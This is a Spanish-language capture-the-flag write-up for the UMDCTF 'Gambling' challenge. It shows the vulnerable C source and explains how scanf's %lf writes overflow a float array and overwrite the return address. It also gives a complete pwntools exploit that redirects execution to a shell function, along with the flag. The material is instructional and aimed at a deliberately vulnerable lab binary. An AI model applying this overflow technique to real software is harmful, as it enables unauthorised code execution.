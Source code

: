 # Gambling

## Analisis

Codigo fuente:
``` C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

float rand_float() {
  return (float)rand() / RAND_MAX;
}

void print_money() {
	system("/bin/sh");
}

void gamble() {
	float f[4];
	float target = rand_float();
	printf("Enter your lucky numbers: ");
	scanf(" %lf %lf %lf %lf %lf %lf %lf", f,f+1,f+2,f+3,f+4,f+5,f+6);
	if (f[0] == target || f[1] == target || f[2] == target || f[3] == target || f[4] == target || f[5] == target || f[6] == target) {
		printf("You win!\n");
		// due to economic concerns, we're no longer allowed to give out prizes.
		// print_money();
	} else {
		printf("Aww dang it!\n");
	}
}

int main(void) {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

	char buf[20];
	srand(420);
	while (1) {
		gamble();
		getc(stdin); // consume newline
		printf("Try again? ");
		fgets(buf, 20, stdin);
		if (strcmp(buf, "no.\n") == 0) {
			break;
		}
	}
}
```

Nos dan un ELF de 32 bits que nos permite entrar 7 "numeros de la suerte"

La "logica de victoria" no nos lleva a nada pero notamos que los flotantes son almacenados en el array `f` de solo 4 elementos, pero podemos introducir hasta 7 elementos. Si probamos el binario varias veces nos percatamos de que introducir un numero valido en el 7mo elemento provoca un buffer overflow.

Esto es otro ret2win, esta vez contamos con `print_money` para invocar una shell. Debemos redirigir el flujo del programa a esta funcion.

Chequeamos las propiedades del binario:
```
[*] '/home/kalcast/Descargas/Gambling/gambling'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    FORTIFY:    Enabled
    Stripped:   No

```

No tiene `PIE` asi que las direcciones del binario son fijas y no tiene `canary` asi que podemos sobreescribir las direcciones de retorno sin preocuparnos.

#### Explotacion

A pesar de que si se mira el stack parece que con los 7 numeros que introducimos no basta para llegar a la direccion de retorno de la funcion en realidad si ocurre:

```
Enter your lucky numbers: 32.1
32.1
32.1
32.1
32.1
32.1
n
```

```
[0x08049336]> pxW @ esp
0xffd531e0 0x0804a02b str.__lf__lf__lf__lf__lf__lf__lf
0xffd531e4 0xffd53220 esp+64
0xffd531e8 0xffd53224 esp+68
0xffd531ec 0xffd53228 esp+72
0xffd531f0 0xffd5322c esp+76
0xffd531f4 0xffd53230 esp+80
0xffd531f8 0xffd53234 esp+84
0xffd531fc 0xffd53238 esp+88
0xffd53200 0x00000001 section.+1
0xffd53204 0x0804a010 str.Enter_your_lucky_numbers:
0xffd53208 0xffd5324c ebx
0xffd5320c 0x080492e8 sym.gamble+8
0xffd53210 0x000001a4 elf_phdr+368
0xffd53214 0xf7f02448 fcn.f7f01900+2888
0xffd53218 0xf7f038ec fcn.f7f031c0+1836
0xffd5321c 0x3b1cbd98
0xffd53220 0xcccccccd                     # Primer parametro
0xffd53224 0xcccccccd
0xffd53228 0xcccccccd
0xffd5322c 0xcccccccd
0xffd53230 0xcccccccd
0xffd53234 0xcccccccd
0xffd53238 0x40400ccc                     # Septimo parametro que supuestamente causa overflow
0xffd5323c 0x08049135 main+85
```


Como se observa queda justo antes del retorno pero la magia esta en como `scanf` consume los numeros:
`scanf(" %lf %lf %lf %lf %lf %lf %lf", f,f+1,f+2,f+3,f+4,f+5,f+6);`

Normalment para consumir un `float` se usa `%f`, aqui usan `%lf`, esto hace que el `float` se extienda a `double` en memoria antes de almacenarse; o sea , normalmente un `float` ocupa 4 bytes en arquitecturas de 32-bits pero como se extiende a `double` se crean 4 bytes mas significativos que corrompen los bytes adyacentes (mas altos en memoria), por lo que el 7mo parametro corrompe la direccion de retorno a main+85.

Sabiendo eso tenemos que hacer dos cosas:
1. Extender nuestra direccion de `print_money` con 4 bytes mas para que ocupe el tamano completo de un double y en los bits menos significativos caiga la direccion de memoria.
2. Convertir nuestros bytes a un float para que lo acepte la entrada usando el estandar `IEEE-754`

Exploit:
```python
from pwn import *

#p = process('./gambling')
p = remote("challs.umdctf.io",31005)
elf = context.binary = ELF("./gambling")

#gdb.attach(p,gdbscript="""
#            break *0x08049331
#            break  *0x08049393
#           """)
context.log_level = "debug"

money = 0x080492c0
# double
magic = struct.unpack('d', b'\x00\x00\x00\x00' + p32(money))[0]

payload = [
    b'2.1',
    b'2.2',
    b'3.3',
    b'4.4',
    b'5.5',
    b'0.0',
    str(magic).encode(),
]

print(f"{magic}")
print(f"{struct.pack("f",magic)}")
print(payload)
p.sendlineafter(b"Enter your lucky numbers: ", b' '.join(payload))
p.interactive()
```

`UMDCTF{99_percent_of_pwners_quit_before_they_get_a_shell_congrats_on_being_the_1_percent}`
